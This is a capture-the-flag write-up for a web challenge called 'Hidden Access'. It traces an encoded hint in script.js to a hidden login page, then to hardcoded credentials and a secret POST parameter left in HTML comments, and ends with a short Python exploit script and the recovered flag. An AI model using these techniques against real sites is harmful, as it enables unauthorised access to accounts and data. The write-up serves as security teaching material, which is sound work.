









## 🕵️ Web CTF Challenge Writeup: *Hidden Access*



### 🧩 Challenge Summary

The goal was to uncover a hidden login endpoint, bypass a basic frontend form, and extract a hidden flag through backend logic inspection.

---

### 🔍 Step-by-Step Walkthrough

#### 1. **Initial Recon and JavaScript Inspection**




While examining the site assets, we discovered an interesting line in `script.js`:

```
console.log("The secret might lie at VioKZgIPYyrKc3NoFyYg43spccr0vOrW");
```



This string looked encoded. Upon investigation, it was **Base62 encoded**.



#### 2. **Decoding the Secret URL**

Using a Base62 decoder, we found:

```
/login.php?secret=hidden
```



This hinted at a hidden login endpoint.

---

#### 3. **Source Code Review**



Accessing `/login.php?secret=hidden`, the page displayed a simple HTML login form. Viewing the **HTML source** revealed:



```
<!-- username:admin123456 -->
<!-- password:admin123456 -->
...
<!-- if($_SERVER["REQUEST_METHOD"]=="POST"&&isset($_POST['reveal_flag'])&&$_POST['reveal_flag']=='true') -->
```

We found:

* Hardcoded credentials in comments.
* A commented-out line showing a secret condition: a `POST` request must include `reveal_flag=true`.

---

#### 4. **Crafting the Exploit**

Using Python and the `requests` module, we crafted the following script:

```
import requests

url = 'https://starfish-app-6tnq7.ondigitalocean.app/login.php?secret=hidden'

data = {
    'username': 'admin123456',
    'password': 'admin123456',
    'reveal_flag': 'true'
}

r = requests.post(url, data=data)
print(r.text)
```

---

### 🏁 Result



Running the script successfully revealed the flag:

```
flag{y0u_g0t_!t}
```
---

## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*